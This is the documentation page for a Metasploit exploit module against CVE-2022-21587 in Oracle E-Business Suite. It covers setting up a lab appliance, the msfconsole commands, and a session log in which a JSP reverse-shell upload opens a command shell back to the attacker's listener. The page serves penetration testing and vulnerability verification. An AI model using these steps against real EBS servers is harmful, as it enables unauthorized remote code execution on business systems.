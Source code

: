 ## Vulnerable Application

This module exploits CVE-2022-21587, an unauthenticated arbitrary file upload vulnerability in Oracle
Web Applications Desktop Integrator as shipped with Oracle E-Business Suite (EBS) versions
12.2.3 through to 12.2.11.

The exploit uploads a Java Server Page (JSP) payload in order to achieve code execution
as the `oracle` user, and will use the `java/jsp_shell_reverse_tcp` payload by default.

The Oracle EBS product is shipped as either a standalone appliance based on Linux, or an self
hosted application supporting multiple platforms, including Linux, Windows, Solaris, AIX and
HP-UP. This exploit module has been tested against the Linux based appliance, specifically
version 12.2.10.

A full technical analysis of the vulnerability can be found on
[AttackerKB](https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis).

## Target Setup

To setup the Oracle EBS appliance, you must download the appliance files, rebuild the appliance
image and install the appliance as a [VirtualBox](https://www.virtualbox.org/) virtual machine.

* Register an account at [Oracle E-Delivery](https://edelivery.oracle.com/osdc/faces/SoftwareDelivery)
and login to search for the required software. You will need to search for `REL: Oracle VM Virtual Appliance for
Oracle E-Business Suite` to find the appropriate download links. The version number should be listed at the end of the link.

* You will be presented with multiple ZIP files to download. These files will be extracted and
concatenated to create a single 70 GB Oracle Virtual Appliance (OVA) file. Instructions on how
to do this, as well as additional configuration instructions, can be found in the extracted
documentation located in `\V1005962-01\Documents\Oracle VM Virtual Appliance for Oracle E-Business
Suite Deployment Guide_Release 12.2.10.html`. Additionally a step by step guide for installation
and setup is available [here](https://blog.rishoradev.com/2021/04/12/oracle-ebs-r12-on-virtualbox/).

* Import the OVA file into VirtualBox. Once this is completed you may power on the virtual appliance.
You will require around 320 GB of hard disk space to complete this operation. Note, issues were encountered
if the IP address for the appliance changed after the initial install. It is recommended to use either a
static IP address or ensure your DHCP server provides the same address to the appliance.

* When booting the virtual appliance you will be asked to select a Linux kernel to boot from. The option
`Oracle Linux Server 7.9, with Linux 3.10.0-1160.11.1.e17.x86_64` was chosen during testing.

* Upon booting the virtual appliance for the first time you will be asked to login. Enter the username `root`
and follow the instructions displayed in the console to set the default passwords for the `root` and
`oracle` and `applmgr` user accounts. If asked to install the VISION demo instance, enter `VISION` to install
the demo data.

* Once installation and setup has been completed, you can SSH into the appliance as the user
`oracle` and start the database and application services with the following commands. Note, it has been observed that
when starting the apps, some may timeout when starting (an error will be displayed in the console), and may require
running `startapps.sh` a second time.

```
cd /u01/install/APPS/scripts/
./startdb.sh
./startapps.sh
```

* You can now access the WebLogic server over HTTP port `8000`.

## Options

## Verification Steps

From msfconsole perform the following steps:

1. `use exploit/linux/http/oracle_ebs_rce_cve_2022_21587`
2. Set `RHOST` to the target address and `RPORT` to the target port. The default `RPORT` is 8000 for
HTTP and 4443 for HTTPS. If using HTTPS set `SSL` to `true`.
3. Set `LHOST` and `LPORT` values for the default `java/jsp_shell_reverse_tcp` payload.
4. `check` to ensure the target is vulnerable.
5. `exploit`
6. Verify a command session has been opened and you can execute commands as the `oracle` user.

## Scenarios

### Oracle E-Business Suite 12.2.10 - Oracle Virtual Appliance (OVA)

```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587 
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > show options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set RHOST 192.168.86.37
RHOST => 192.168.86.37
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set LHOST 192.168.86.5
LHOST => 192.168.86.5
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > check
[*] 192.168.86.37:8000 - The target appears to be vulnerable. Oracle EBS version 12.2.10 detected.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > exploit

[*] Started reverse TCP handler on 192.168.86.5:4444 
[*] Targeting the endpoint: /OA_HTML/BneUploaderService
[*] Triggering the payload...
[+] Deleted /u01/install/APPS/fs1/FMW_Home/Oracle_EBS-app1/applications/forms/forms/ygrne.jsp
[*] Command shell session 1 opened (192.168.86.5:4444 -> 192.168.86.37:59288) at 2023-02-10 12:20:43 +0000

id
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux apps 3.10.0-1160.11.1.el7.x86_64 #1 SMP Tue Dec 15 11:58:45 PST 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.37 - Command shell session 1 closed.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) >
```
